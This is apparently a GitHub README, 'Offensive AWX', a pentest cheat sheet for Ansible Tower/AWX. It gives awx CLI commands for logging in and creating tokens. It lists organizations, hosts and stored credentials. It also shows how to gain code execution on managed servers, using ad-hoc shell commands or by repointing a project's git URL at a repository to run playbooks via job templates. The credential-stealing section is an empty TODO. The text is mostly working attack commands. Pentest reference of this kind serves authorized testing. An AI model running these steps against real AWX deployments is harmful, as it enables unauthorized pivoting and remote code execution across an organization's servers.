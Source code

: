 # Offensive AWX

Offensive AWX consists of cheat sheets and information to pentest Ansible Tower and AWX. AWX will be used to refer to AWX as well as Ansible Tower. The `awx` CLI will be used throughout this documentation to allow for more flexible exploitation. Anything done with the CLI can usually be done with the UI as well.

Access to AWX can often be leveraged to pivot in an environment and gain remote code executions on servers.

* [Install AWX](#install-awx)
* [Authentication](#authentication)
  * [Username and password](#username-and-password)
  * [Inline](#inline)
  * [Tokens](#tokens)
* [Reconnaissance](#reconnaissance)
  * [Version](#version)
  * [Organizations](#organizations)
  * [Projects](#projects)
  * [Inventories](#inventories)
  * [Groups](#groups)
  * [Hosts](#hosts)
  * [Credentials](#credentials)
* [Code execution](#code-execution)
  * [Ad-Hoc commands](#ad-hoc-commands)
  * [Code execution through projects](#code-execution-through-projects)
    * [Creating or modifying projects](#creating-or-modifying-projects)
    * [Job templates](#job-templates)
* [Credential stealing](#credential-stealing)

## Install AWX

```bash
python -m pip install awxkit
```

## Authentication

### Username and password

To validate AWX credentials without having impact, you can use the `me` or the `ping` command. Exporting the variables will avoid having to specify them every request.

```bash
export CONTROLLER_HOST=http://10.1.1.1:10445
export CONTROLLER_USERNAME=admin
export CONTROLLER_PASSWORD=Passw0rd1
awx me
```

### Inline

You can specify your username and password on every request with the `--conf.username` and `--conf.password` parameters

```bash
awx --conf.username admin --conf.password Passw0rd1 me
```

### Tokens

Using the login function will create a personal access token. You may want to add a description for future reference:

```bash
export CONTROLLER_HOST=http://10.1.1.1:10445
export CONTROLLER_USERNAME=admin
export CONTROLLER_PASSWORD=Passw0rd1
awx login --description "Pentest XYZ" -f human
```

Listing your tokens will display the one you just created:

```bash
awx me -f human
awx tokens list -f human --filter "id,name,description" --user <id>
```

To clean up your token, you can use the `delete` function:

```bash
awx tokens delete <id>
```

## Reconnaissance

Gather information on the server's content.

### Version

```bash
awx ping
```

### Organizations

Organizations are security boundaries for inventories, users, etc.

Listing organizations in the human readable format:

```bash
awx organizations list -f human --filter "id,name,description"
```

Get one organization in particular:

```bash
awx organizations get <id>
```

### Projects

Listing projects in the human readable format:

```bash
awx projects list -f human --filter "id,name,description"
```

Get one project in particular:

```bash
awx projects get <id>
```

### Inventories

An inventory contains hosts.

Listing inventories in the human readable format:

```bash
awx inventory list -f human
```

Getting a specific inventory's details:

```bash
awx inventory get <id>
```

### Groups

Groups contain hosts as well. An inventory can be split into groups for more granular management.

List groups:

```bash
awx groups list -f human
```

List groups for an inventory:

```bash
awx groups list -f human --inventory <id>
```

### Hosts

List hosts:

```bash
awx hosts list -f human --filter "id,name,inventory"
```

List hosts by inventory:

```bash
awx hosts list -f human --filter "id,name,inventory" --inventory <id>
```

Get a single host:

```bash
awx hosts get <id>
```

### Credentials

Credentials can be used to connect to hosts to run commands.

```bash
awx -k --conf.host http://10.2.255.253:10445 --conf.username admin --conf.password JdkQyYf0JO8zqak4ldBwdusrEfFCw7Wm credentials list -f human
```

## Code execution

There are multiple approches to code execution. You can run ad-hoc commands, create or modify projects or templates, etc.

### Ad-Hoc commands

Listing ad-hoc commands in the human readable format:

```bash
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands list -f human
```

Creating an add-hoc command and getting its output:

```bash
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands create --inventory <inventory id> --credential <credential_id> --module_name shell --module_args 'whoami; hostname;'
awx --conf.host <url> --conf.username <username> --conf.token <token> ad_hoc_commands stdout <command id>
```

### Code execution through projects

#### Creating or modifying projects

Creating a project:

```bash
awx projects create --wait --organization  --name='My project' --scm_type git --scm_url 'https://github.com/lm-sec/offensive-awx.git' -f human
```

Modifying a project's `scm_url`:

```bash
awx projects modify <id> --scm_url "https://github.com/lm-sec/offensive-awx.git"
```

For a private git repository, you can create credentials and add them to the project. Use the `Source Control` credential type:

```bash
awx credential_types list -f human
awx organization list -f human
awx credentials create --name "GitHub read" --description "GitHub personal access token" --organization <id> --credential_type <id> --inputs '{ "username":"your-user", "password":"github_pat_your-access-token" }' -f human
awx projects modify <id> --credential <id> -f human
```

#### Job templates

Listing job templates in the human readable format:

```bash
awx job_templates list -f human
```

Creating a job template for the `hostname_whoami.yml` playbook for a project with the `scm_url` value of `https://github.com/lm-sec/offensive-awx.git`:

```bash
awx job_templates create --name='My job template' --project <id> --inventory <id> --playbook 'playbooks/hostname_whoami.yml' -f human
```

Launching a job template:

```bash
awx job_templates launch <id> --monitor -f human
```

Reading the output:

```bash
awx jobs stdout <id>
```

Changing a job template's playbook:

```bash
awx job_templates modify <id> --playbook "playbooks/hostname_whoami.yml"
```

Changing a job template's branch:

```bash
awx job_templates modify <id> --scm_branch "main"
```

## Credential stealing

> TODO
